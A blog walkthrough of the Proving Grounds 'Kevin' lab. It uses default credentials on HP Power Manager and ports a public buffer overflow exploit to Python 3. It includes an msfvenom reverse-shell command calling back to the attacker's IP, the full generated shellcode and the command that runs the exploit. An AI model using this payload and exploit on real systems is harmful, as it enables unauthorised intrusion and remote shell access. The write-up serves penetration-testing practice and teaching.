 ```yaml
---
title: "Proving Grounds - Kevin"
date: 2024-10-19T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-kevin/
categories: Labs
tags: [writeup]
---
```

Welcome to our latest lab session in Proving Grounds! In this post, we'll demonstrate how to adapt an existing buffer overflow exploit for an older version of Windows to work on a newer release. This lab is considered to be a beginner lab as only porting existing exploit code is required.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.233.45 -oA ./fulltcp
```

The port scan suggests that we are likely dealing with a Windows machine, as indicated by the presence of commonly open ports that are characteristic of Windows environments. For instance, port 445/tcp is associated with the Server Message Block (SMB) protocol, which is used for file sharing and network resource access. Additionally, port 3389/tcp is used for Remote Desktop Protocol (RDP), allowing users to connect remotely to a Windows system. The scan also reveals other relevant ports, such as 135/tcp and 139/tcp, which are used for various Windows services, including RPC and NetBIOS. 

![image](https://github.com/user-attachments/assets/31ae973c-0f97-49b3-9a32-92f5729aba23)

The machine also hosts a web application, which presents a valuable opportunity for further exploration. In cases like this, especially in a lab environment, starting with the web application is often a prudent approach, as it can yield interesting findings. By investigating the web server, we may uncover useful information that could shed light on the underlying system architecture and functionality. This could include identifying technologies in use, potential vulnerabilities, or even configuration details that help us better understand the overall environment we're dealing with.

The page displays a login screen for HP Power Manager, which, upon first glance, appears somewhat dated in its design. The user interface lacks modern aesthetics and functionality, giving it an older feel that may suggest it hasn’t been updated in a while.

![image](https://github.com/user-attachments/assets/3c50b0f7-34e1-4640-a7e1-e0b66eb2b138)

Using the default credentials of admin/admin grants us access to the interface, revealing some insights into the application behind it. 

![image](https://github.com/user-attachments/assets/438a2576-5076-45cf-9668-73444f8b71ac)

Let’s take a look at Searchsploit to check for any vulnerabilities related to HP Power Manager. By searching the database, we can identify known exploits, security issues, or weaknesses associated with this application.

![image](https://github.com/user-attachments/assets/0e3e5ca1-bc00-49fe-aa68-9ad0112b5fb1)

It appears that the application we are dealing with is vulnerable to a buffer overflow vulnerability. This type of vulnerability can allow an attacker to manipulate the application’s memory, potentially leading to arbitrary code execution or denial of service.

By utilizing Searchsploit with the -w flag, we can pinpoint the URL (https://www.exploit-db.com/exploits/10099) that provides access to the exploit code associated with this vulnerability. This will enable us to review the specific details of the exploit, including its mechanics and any prerequisites for successful execution.

The provided exploit code targets a buffer overflow vulnerability in HP Power Manager and has been specifically tested on Windows 2003 Enterprise SP2 English and Windows XP SP2 English. We can identify that the code is written in Python 2 due to several key features:

1. **Print Statement**: The use of `print` statements without parentheses (e.g., `print "HP Power Manager Administration Universal Buffer Overflow Exploit"`) is characteristic of Python 2 syntax. In Python 3, `print` is a function and requires parentheses.

2. **String Handling**: The code employs string formatting and concatenation in a manner typical of Python 2. For instance, the `%` operator is used for string interpolation, which is less common in modern Python 3 code, where f-strings or the `format()` method are preferred.

The exploit works by sending a specially crafted HTTP POST request to the application, attempting to manipulate its memory by overwriting the return address with a location that can execute arbitrary code. The payload is constructed in the `evil` variable, which includes the necessary HTTP headers and the crafted buffer. As noted in the comments, this exploit demonstrates the significant security risks associated with outdated software, especially when default credentials remain in use.

I frequently search for new code to see if anyone has already taken the initiative to convert older projects to newer versions, such as Python 3. This proactive approach not only saves me time but also ensures that I can leverage the latest features and improvements in the language.

![image](https://github.com/user-attachments/assets/c0b78fbe-5169-497b-838d-888ec2f3f744)

I will use this Python 3 code (https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/blob/master/hp_pm_exploit_p3.py) example as a starting point and explore how we can port the existing code to ensure it works effectively.


## Exploit

We will download the exploit code and open it with a text editor of our choice. 

```bash
wget https://raw.githubusercontent.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3/refs/heads/master/hp_pm_exploit_p3.py
nano hp_pm_exploit_p3.py
```

With buffer overflows often the command to generate the shellcode is added as a comment. This is also the case for our exploit.

![image](https://github.com/user-attachments/assets/434e1fd7-f86e-4d02-851e-b0eb822f7c1f)

We will use the msfvenom command to generate our own shellcode that will work with the buffer overflow. It’s crucial to remember to change the LHOST value to your own IP address to ensure the shellcode can establish a connection back to our machine. For the LPORT, we will select 443/tcp, as this port is commonly permitted on firewalls.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

This outputs the following:

```bash
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of python file: 1722 bytes
buf =  b""
buf += b"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
buf += b"\x81\x76\x0e\xd2\x9f\xb3\xc4\x83\xee\xfc\xe2\xf4"
buf += b"\x2e\x77\x31\xc4\xd2\x9f\xd3\x4d\x37\xae\x73\xa0"
buf += b"\x59\xcf\x83\x4f\x80\x93\x38\x96\xc6\x14\xc1\xec"
buf += b"\xdd\x28\xf9\xe2\xe3\x60\x1f\xf8\xb3\xe3\xb1\xe8"
buf += b"\xf2\x5e\x7c\xc9\xd3\x58\x51\x36\x80\xc8\x38\x96"
buf += b"\xc2\x14\xf9\xf8\x59\xd3\xa2\xbc\x31\xd7\xb2\x15"
buf += b"\x83\x14\xea\xe4\xd3\x4c\x38\x8d\xca\x7c\x89\x8d"
buf += b"\x59\xab\x38\xc5\x04\xae\x4c\x68\x13\x50\xbe\xc5"
buf += b"\x15\xa7\x53\xb1\x24\x9c\xce\x3c\xe9\xe2\x97\xb1"
buf += b"\x36\xc7\x38\x9c\xf6\x9e\x60\xa2\x59\x93\xf8\x4f"
buf += b"\x8a\x83\xb2\x17\x59\x9b\x38\xc5\x02\x16\xf7\xe0"
buf += b"\xf6\xc4\xe8\xa5\x8b\xc5\xe2\x3b\x32\xc0\xec\x9e"
buf += b"\x59\x8d\x58\x49\x8f\xf7\x80\xf6\xd2\x9f\xdb\xb3"
buf += b"\xa1\xad\xec\x90\xba\xd3\xc4\xe2\xd5\x60\x66\x7c"
buf += b"\x42\x9e\xb3\xc4\xfb\x5b\xe7\x94\xba\xb6\x33\xaf"
buf += b"\xd2\x60\x66\x94\x82\xcf\xe3\x84\x82\xdf\xe3\xac"
buf += b"\x38\x90\x6c\x24\x2d\x4a\x24\xae\xd7\xf7\x73\x6c"
buf += b"\xff\x39\xdb\xc6\xd2\x9e\x08\x4d\x34\xf5\xa3\x92"
buf += b"\x85\xf7\x2a\x61\xa6\xfe\x4c\x11\x57\x5f\xc7\xc8"
buf += b"\x2d\xd1\xbb\xb1\x3e\xf7\x43\x71\x70\xc9\x4c\x11"
buf += b"\xba\xfc\xde\xa0\xd2\x16\x50\x93\x85\xc8\x82\x32"
buf += b"\xb8\x8d\xea\x92\x30\x62\xd5\x03\x96\xbb\x8f\xc5"
buf += b"\xd3\x12\xf7\xe0\xc2\x59\xb3\x80\x86\xcf\xe5\x92"
buf += b"\x84\xd9\xe5\x8a\x84\xc9\xe0\x92\xba\xe6\x7f\xfb"
buf += b"\x54\x60\x66\x4d\x32\xd1\xe5\x82\x2d\xaf\xdb\xcc"
buf += b"\x55\x82\xd3\x3b\x07\x24\x53\xd9\xf8\x95\xdb\x62"
buf += b"\x47\x22\x2e\x3b\x07\xa3\xb5\xb8\xd8\x1f\x48\x24"
buf += b"\xa7\x9a\x08\x83\xc1\xed\xdc\xae\xd2\xcc\x4c\x11"
```

In the example code the 'b' in front of every line is not used. Lets remove it for our payload as well.

![image](https://github.com/user-attachments/assets/91e62cb7-0681-4d8e-ada9-6df08e881177)

This results in the following code pasted in to the exploit.

![image](https://github.com/user-attachments/assets/c713de71-8fec-49ad-91e0-1fb5634a39dc)

We save our exploit and are ready to try it on the server. We will look at the script to see how to interact with it. In this case there is a help menu available.

![image](https://github.com/user-attachments/assets/c90c6b4b-0440-4021-908b-9cbff638ac5b)

It seems that the tool automatically starts up a listener.

![image](https://github.com/user-attachments/assets/f3277c34-c09b-4327-a405-460db7a25461)

Time for action.

```bash
python3 hp_pm_exploit_p3.py 192.168.233.45 80 443
```

The exploit works!

![image](https://github.com/user-attachments/assets/c7d3009a-b583-490f-a557-604587989408)

## Credits

Thank you for taking the time to read. My goal is to document my findings for personal reference and to share insights into my thought processes, helping those who are new to the field learn and grow. I believe that providing this additional context can be beneficial for others as they navigate their own journeys in this domain.
